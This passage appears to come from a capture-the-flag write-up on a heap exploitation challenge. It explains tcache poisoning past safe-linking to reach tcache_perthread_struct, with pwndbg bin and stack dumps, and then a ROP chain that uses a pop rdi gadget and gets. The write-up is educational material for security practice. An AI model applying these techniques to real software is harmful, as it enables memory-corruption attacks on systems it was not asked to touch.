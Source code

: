 ```
    A B C D X 1 0   (next chunk address)
XOR       A B C D   (current chunk address >> 12)
-----------------
```

If `A` is same with `D`, then `A ^ D` is 0. Also, `X ^ B` is just `X` if `B` is zero. It means that if we overwrite second byte of fd with null, the fd will point at tcache_perthread_struct.

Before overwriting, the tcache entry is like this:

```python
pwndbg> bin
tcachebins
0x90 [  3]: 0x5601e80186f0 —▸ 0x5601e8018780 —▸ 0x5601e8018810 ◂— 0x0
```

After overwriting, the tcache entry is like this 😊:
```python
pwndbg> bin
tcachebins
0x90 [  2]: 0x5601e8018780 —▸ 0x5601e8018010 ◂— 0x5601e8018
```

However, I think that it is too ideal and close to winning the lottery. 

In fact, we can match `A` and `D` by allocating enormous packet chunks, right? So using it, we can do tcache dup into a few chunks located at the start of the page where `A` is equal with `D`.

After it, modify tcache->entry with tcahce_perthread_struct again and then we get same environment with previous one (winning the lottery). By using this way, we only requires that `B` is 0.

My target was `... A B C D 0 1 0` for allocating packet chunk once again by freeing tcache_perthread_struct chunk (0x290). The chunk will be at unsorted bin since whole tcache counts are more than 7 by packet data.

## ROP using stack pointer

So far, we made one protocol, and we can make two protocols more. Because both chunks are written by strlen(protocol -> strdup, packet -> snprintf) and seccomp is applied this binary, we have to do ROP anyway. And at least two allocation is needed for ROP.

```c
void hint() {
    puts("I have a gift for you in the main function! I hope it helps you a lot.");
}

int main() {
    unsigned long long present = &present;
    ...
}
```

I made a stack pointer at `main` function, and we can use it for ROP. By overwriting addProtocol RET with `pop rdi; pop rbp; ret` gadget and main SFP with `gets` function like this:

```python
pwndbg> tele 0x7fffe7209990
00:0000│ rdi 0x7fffe7209990 ◂— 0x4242424242424242 ('BBBBBBBB')
01:0008│ rsp 0x7fffe7209998 —▸ 0x7f718382a745 (__gconv_open+501) ◂— pop rdi
02:0010│     0x7fffe72099a0 ◂— 0x7fffe72099a0
03:0018│     0x7fffe72099a8 ◂— 0x5663ee390550e800
04:0020│     0x7fffe72099b0 —▸ 0x7f7183880520 (gets) ◂— endbr64 
05:0028│     0x7fffe72099b8 ◂— 0x0
06:0030│     0x7fffe72099c0 ◂— 0x0
07:0038│     0x7fffe72099c8 —▸ 0x5601e7a14d0a (main) ◂— endbr64 

pwndbg> x/3i 0x7f718382a745
   0x7f718382a745 <__GI___gconv_open+501>:      pop    rdi
   0x7f718382a746 <__GI___gconv_open+502>:      pop    rbp
```